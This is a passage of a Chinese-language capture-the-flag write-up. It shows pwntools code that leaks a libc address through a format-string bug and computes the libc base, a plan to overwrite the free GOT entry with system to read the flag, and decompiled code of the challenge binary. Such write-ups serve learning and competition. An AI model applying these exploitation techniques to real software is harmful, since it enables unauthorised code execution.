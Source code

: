 同时，利用`%25$p`，泄漏`main`的返回地址`libc_start_main+243`，随后可以计算出libc基址

```python
data = ru('AAAA')
log.hexdump(data[-14:])
libc_start_main_ret = eval(data[-14:])
info_addr('leak',libc_start_main_ret)
libcbase = libc_start_main_ret - 0x20830
info_addr('libcbase',libcbase)
```

#### getflag

> 签到那题对`cat`、空格等等等等做了过滤，不知道这题有没有，所以选择直接执行`system("base64<flag")`

`main`函数的最后会`free`掉我们输入的字符串，因此最简单的解法就是改`free`的got表为`system`，但是`free`在之前的操作中已经被占用了，所以这里要稍微绕一下。

在格式化字符串漏洞的函数执行过后，有下面这个函数：

```c
char *motto(){
  _QWORD *v0; // rax
  __int64 sz; // [rsp+0h] [rbp-420h]
  char *v3; // [rsp+8h] [rbp-418h]
  char buf; // [rsp+10h] [rbp-410h]
  unsigned __int64 v5; // [rsp+418h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("please input size of motto:");
  sz = get_ll();
  if ( sz < 0 )
    sz = -sz;
  if ( sz > 1024 )
    sz = 1024LL;
  puts("please input motto:");
  read_n((__int64)&buf, sz);
  v3 = strdup(&buf);
  if ( (unsigned __int8)sub_400B96((__int64)&buf) ^ 1 )
  {
    v0 = (_QWORD *)__cxa_allocate_exception(8LL);
    *v0 = "The format of motto is error!";
    __cxa_throw((__int64)v0, (__int64)&`typeinfo for'char const*, 0LL);
  }
  return v3;
}
```

```c
signed __int64 __fastcall sub_400B96(__int64 buf){
  int i; // [rsp+14h] [rbp-4h]
  for ( i = 0; *(i + buf); ++i ){
    if ( *(i + buf) <= 0x1F || *(i + buf) == 0x7F )
      return 0LL;
  }
  return 1LL;
}
```
